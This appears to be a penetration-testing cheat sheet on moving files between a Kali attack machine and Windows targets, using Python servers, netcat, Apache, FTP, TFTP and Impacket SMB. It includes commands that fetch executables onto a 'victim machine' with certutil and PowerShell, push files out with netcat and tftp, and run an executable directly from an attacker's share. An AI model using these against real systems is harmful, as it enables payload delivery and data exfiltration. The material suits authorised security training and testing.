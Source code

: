 # File Transfer

#### Python

```bash
# python2 http server
python2 -m SimpleHTTPServer 1337 #1337 - port no
# python3 http server
python3 -m http.server 1337
# python ftp server with anon login and write permission
# installing module
pip install pyftpdlib
# starting the server
python -m pyftpdlib -p 21 --write
```

#### NC

```bash
# sender
nc 10.10.10.10 1337 < <file_to_be_sent>
# reciever
nc -lvnp 1337 > <outfile>
```


#### File Transfer from kali to windows:
Here we will be transferring the `xxxx.exe` from kali to windows
In Kali, utilities like `curl` and `wget` will be exported by default hence, there will no need of covering file transfer methods for them

- [http](#http)
- [ftp](#ftp)
- [tftp](#tftp)
- [SMB](#smb)

##### HTTP Transferring <a name='http'></a>
*Setting UP the server :*
- Apache

<h5>Apache:</h5>

```bash
cp xxxx.exe /var/www/html
service apache2 start

#The apache2 server's activity can be verfied with
â”€[kali@kali]â”€[~]$ service apache2 status
â— apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Sat 2020-08-01 04:28:17 EDT; 12s ago

```

*Receiving the file:*
- When GUI is available, fire up the browser and navigate to `http://iamserver:port/xxxx.exe` to download the file
- When only CLI is available, the webclient object is used

```bash
powershell -c (new-object System.Net.WebClient).DownloadFile('http://iamserver:port/xxxx.exe','C:\download\path\xxxx.exe')
# If the abouve one fails
# with aliases
iwr -uri 'http://iamserver:port/xxxx.exe' -o 'C:\download\path\xxxx.exe'
# with commandlet
powershell.exe -command Invoke-WebRequest -Uri 'http://iamserver:port/xxxx.exe' -OutFile 'C:\download\path\xxxx.exe'

# file transfer when only cmd is available, output just like wget
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe
```

##### FTP Transferring <a name='ftp'></a>
- Windows has an inbuilt ftp client located in,`C:\Windows\System32\ftp.exe`

*Setting UP the server:*
- vsftpd
- Metasploit

<h5>vsftpd :</h5>

- Installing a fully functional `ftp` service in the kali machine

```bash
apt-get install vsftpd
#in the vsftpd.conf
local_enable = yes
write_enable = yes
chroot_list_enable=YES
chroot_list_file=/etc/vsftpd.chroot_list
anonymous_enable=yes
#end of editing config file

vsftpd start 
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/ftp
set FTPUSER wr3nch
set FTPPASS damnedsec
set FTPROOT \<directory/path\>
run
```

*Receiving the file:*
- As `ftp` is pre installed in windows, ftp login to obtain files

```bash
ftp 10.10.10.10
username anonymous
password anonymous
#set the transfer to binary mode
binary
#download file
get xxxx.exe
```

##### TFTP Transferring <a name='tftp'></a>

- `tftp` is installed by default in windows xp machine but is disabled in newer machines
- Through tftp, files can be downloaded in a single command

*Setting UP the server:*
- atftpd
- Metasploit

<h5>atftpd: </h5>
- Linux exports with built in tftp service

```bash
service atftpd start
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/tftp
set TFTPROOT \<directory/path\>
run
```

*Receiving the file:*

- Enabling tftp as it is disabled by default in newer machines

```bash
pkgmgr /iu:"TFTP"
```

- tftp doesnt require any authentication
- If installed in the victim machine make use of it

```bash
#download a file
tftp -i 10.10.10.10 GET xxxx.exe

#upload a file
tftp -i 10.10.10.10 PUT xyz.exe
```

##### SMB Transferring <a name='smb'></a>

- SMB is exported builtin with windows

*Setting UP the server:*

- Linux
- Impacket

<h5>Linux: </h5>

```bash
#inastall dependencies
python-glade2 system-config-samba

# Configuring SAMBA
# edit the /etc/samba/smb.conf file
# change the workgroup= WORKGROUP to your network needs and tweak and save the conf file
# restart the samba
sudo service smbd restart
```
<h5>Impacket: </h5>

- The `smbserver.py` in the impackets will take care of every cofigurations and binds to port 445

```bash
python smbserver.py wr3nch \<directory/path\>
```

- This can be verified with `SMBCLIENT` which is pre-installed in LINUX

```bash
# connect to the specified IP with no password
# the name wr3nch given when starting the smbserver.py will be shown as the share name
smbclient -L 10.10.10.11 --no-pass
```

*Receiving the file:*

- The smb server is treated as a local share
- Just access it to obtain the files

```bash
# list the contents of the share
dir \\10.10.10.11\wr3nch

# copy files from ther server to the windows machine
copy \\10.10.10.11\wr3nch\xxxx.exe .

# executing files straight from the server 
\\10.10.10.11\wr3nch\xxxx.exe
```

```bash
# mount the smb share in windows machine
net use x: \\{smb_Share_IP}\{smb_share_Name} /user:{smbShareUser} {smbSharePass}
```

